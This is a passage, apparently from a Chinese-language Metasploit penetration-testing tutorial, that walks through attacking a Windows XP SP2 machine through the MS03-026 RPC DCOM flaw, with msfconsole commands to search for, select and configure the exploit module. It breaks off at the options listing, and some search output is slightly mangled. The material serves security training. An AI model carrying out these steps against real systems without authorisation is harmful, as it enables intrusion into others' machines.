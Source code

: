 在这里，我们可以看到`dcom`攻击适用于多种 Windows 机器。

## 它是如何工作的...

在第一章中，*安全专业人员的 Metasploit 快速提示*，我们已经讨论了整个 Metasploit 框架具有模块化架构。不同的攻击被转换为框架可理解的模块，可以根据其功能。调用不同的命令来加载和设置模块。`msfconsole`的命令行界面使得访问不同的模块和执行渗透测试变得容易。

# 在 Windows XP SP2 机器上进行渗透测试

现在让我们开始使用攻击的世界。首先，我们将使用最基本但最广泛使用的操作系统 Windows XP。在这个示例中，我们将看到如何使用 Metasploit 来入侵我们正在运行 Windows XP 机器的目标系统。我们将使用在上一个示例中学到的命令，然后继续选择攻击和有效载荷，并设置各种所需的参数。

## 准备工作

我们将从`msfconsole`开始我们的渗透测试过程。因此，启动控制台并执行端口扫描以收集有关目标的信息。我们在上一章节中详细讨论了端口扫描。在这里，我假设您已经收集了有关目标的信息，并且它正在运行 Windows XP 操作系统。因此，让我们继续选择攻击和有效载荷。

## 如何做...

要在 Windows XP SP2 机器上执行渗透测试，请按照以下步骤进行：

1.  主要目标是选择一个可以在 Windows XP 机器上使用的攻击。您可以浏览`/exploits/windows`目录，或者简单地搜索 Windows XP 平台上可用攻击的列表。我们将使用 RPC `dcom`漏洞来渗透我们的目标。因此，让我们首先搜索 RPC `dcom`漏洞，使用以下命令：

```
msf exploit(ms03_026_dcom) > search dcom
Matching Modules
================
Name Disclosure Date Rank Description
---- --------------- --- -----------
exploit/windows
dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC
xploit/windows/
driver/
broadcom_wifi_ssid 2006-11-11 low Broadcom Wireless
xploit/windows/
smb/ms04_031_netdde 2004-10-12 good Microsoft NetDDE 
```

如我们所见，搜索产生了三个结果。我们将使用第一个攻击，因为它的`rank`列为`great`，因此成功率会更高。

1.  为了将`exploit/windows/dcerpc/ms03_026_dcom`设置为可用的攻击，我们将执行以下命令：

```
msf exploit(ms03_026_dcom) > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > 
```

提示符的更改表示命令已成功执行。

1.  下一步将是设置 exploit 的各种参数。`show options`命令将列出 exploit 中可用的参数。然后，通过使用`set`命令，我们可以设置各种参数。某些参数也将具有默认值：

```
msf exploit(ms03_026_dcom) > show options
Module options (exploit/windows/dcerpc/ms03_026_dcom):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 135 yes The target port
Exploit target:
Id Name
-- ----
0 Windows NT SP3-6a/2000/XP/2003 Universal 
```
